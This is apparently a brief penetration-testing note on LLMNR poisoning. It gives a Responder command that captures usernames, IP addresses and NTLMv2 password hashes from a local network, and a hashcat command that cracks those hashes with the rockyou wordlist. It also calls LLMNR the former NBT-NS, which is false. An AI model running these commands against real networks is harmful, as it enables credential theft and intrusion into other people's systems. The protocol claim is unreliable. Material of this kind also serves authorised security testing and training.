 
+ Link Local Multicast Name Resolution
+ Previously known as NBT-NS
+ Just like DNS(Used when DNS Fails)

1. Run Responder
```sh
$ responder -I <interface> -rdwv
# wait for an event to occur
# client details including IP,username and password hash will be captured by responder when an event is occured.
# event in sense when the server fails to resolve a address request.
```

2. We got the NTLMv2 password hash now, lets crack it with Hashcat
```sh
$ hashcat -m 5600 <hashfile.txt> <passwordlist:rockyou.txt> -O
# 5600 - netNTLMv2
# wait for the password to be cracked
```
















#### Referece: https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa